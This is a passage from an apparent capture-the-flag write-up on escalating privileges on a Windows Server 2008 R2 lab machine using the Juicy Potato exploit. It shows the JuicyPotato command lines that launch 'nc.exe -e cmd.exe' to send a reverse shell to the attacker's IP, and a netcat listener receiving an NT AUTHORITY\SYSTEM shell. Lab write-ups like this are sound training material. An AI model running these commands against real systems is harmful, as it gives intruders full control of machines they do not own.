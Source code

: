 However, the Juicy Potato exploit only affects several version of Windows. Let us first check the version of Windows that this server is on.

```
PS C:\inetpub\drupal-7.54> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
```

From [here](https://kb.iweb.com/hc/en-us/articles/360037049372-Juicy-Potato-Windows-Vulnerability), we can see that Windows Server 2008 R2 is affected by JuicyPotato exploit.

Now, we will transfer nc.exe to our server so that we can do a reverse shell later on. Afterwards, we will also download the Juicy Potato exploit from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to our server as well.

Next, we will attempt to do the JuicyPotato exploit. However for this exploit, we might need to experiment with the CLSID to find a workable CLSID that can be exploited. We can get the list of CLSID from [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise)

Eventually, we are able to find a CLSID ```9B1F122C-2982-4e91-AA8B-E071D54F2A4D``` that can be exploited.

```
C:\inetpub\drupal-7.54>JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p "c:\windows\system32\cmd.exe" -a "/c nc.exe -e cmd.exe 10.10.16.13 2000" -t *
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p "c:\windows\system32\cmd.exe" -a "/c nc.exe -e cmd.exe 10.10.16.13 2000" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
====================================================================================================================================
C:\inetpub\drupal-7.54>JuicyPotato.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p "c:\windows\system32\cmd.exe" -a "/c C:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.16.3 2000" -t *
JuicyPotato.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p "c:\windows\system32\cmd.exe" -a "/c C:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.16.3 2000" -t *
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW O
```

We are then able to obtain a reverse shell with ```nt authority\system``` privileges

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 2000
listening on [any] 2000 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.9] 49328
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
### Obtaining root flag

